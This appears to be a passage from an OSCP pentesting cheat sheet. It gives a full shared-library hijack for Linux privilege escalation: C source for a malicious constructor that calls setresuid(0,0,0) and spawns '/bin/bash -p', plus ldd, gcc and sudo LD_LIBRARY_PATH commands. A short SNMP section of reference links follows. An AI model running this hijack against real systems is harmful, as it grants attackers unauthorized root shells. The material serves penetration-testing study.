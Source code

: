 ![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/dfa2bf4c-5028-41dc-9512-fd01b5cfaae6)

look for shared object to replace w/ `ldd` command on whatever binary

`ldd <path_to_binary>`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/ea46d3ea-c4db-40b4-a9bb-86c0718d7699)

take note of the name of the shared object we want to replace

Next, make shared object like so with .c

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/a6760026-a993-4a6a-9520-936d67ff6046)

Next, complie the file and change the name of the file to the shared object we want to replace

`gcc -o <ldd_sharedobject_to_replace> -shared -fPIC <filename>.c`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/1ede207c-76d1-4c83-a880-953943fc2943)

Finally, run binary with sudo perms and specifiy shared object

`sudo LD_LIBRARY_PATH=. <binary>`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/5e590910-05b1-47d1-9be4-ac1e17ab5a1e)

# SNMP

HackTricks Page

(https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)

CTF’s involving SNMP walk

(https://steflan-security.com/hack-the-box-pit-walkthrough/](https://steflan-security.com/hack-the-box-pit-walkthrough/) and https://resources.infosecinstitute.com/topic/snmp-pentesting/)

**Two Ways to go about this first is to download `snmp-mibs-downloader` (this is discussed in the hacktricks article linked above see pic below)**

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/02adf3a6-0669-4dab-8eee-72fcb62eacb9)
